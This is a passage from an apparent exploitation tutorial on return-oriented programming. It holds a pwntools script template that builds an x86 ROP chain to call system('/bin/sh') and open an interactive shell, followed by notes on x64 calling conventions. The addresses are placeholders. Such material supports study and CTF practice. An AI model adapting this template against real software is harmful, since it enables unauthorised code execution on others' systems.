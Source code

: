 Using **pwntools**, we prepare the stack for the ROP chain execution as follows aiming to execute `system('/bin/sh')`, note how the chain starts with:

1. A `ret` instruction for alignment purposes (optional)
2. Address of `system` function (supposing ASLR disabled and known libc, more info in [**Ret2lib**](ret2lib/))
3. Placeholder for the return address from `system()`
4. `"/bin/sh"` string address  (parameter for system function)

```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadc0de

# A gadget to control the return address, typically found through analysis
ret_gadget = 0xcafebabe  # This could be any gadget that allows us to control the return address

# Construct the ROP chain
rop_chain = [
    ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
    system_addr,   # Address of system(). Execution will continue here after the ret gadget
    0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
    bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```

## ROP Chain in x64 Example

### **x64 (64-bit) Calling conventions**

* Uses the **System V AMD64 ABI** calling convention on Unix-like systems, where the **first six integer or pointer arguments are passed in the registers `RDI`, `RSI`, `RDX`, `RCX`, `R8`, and `R9`**. Additional arguments are passed on the stack. The return value is placed in `RAX`.
* **Windows x64** calling convention uses `RCX`, `RDX`, `R8`, and `R9` for the first four integer or pointer arguments, with additional arguments passed on the stack. The return value is placed in `RAX`.
* **Registers**: 64-bit registers include `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP`, and `R8` to `R15`.
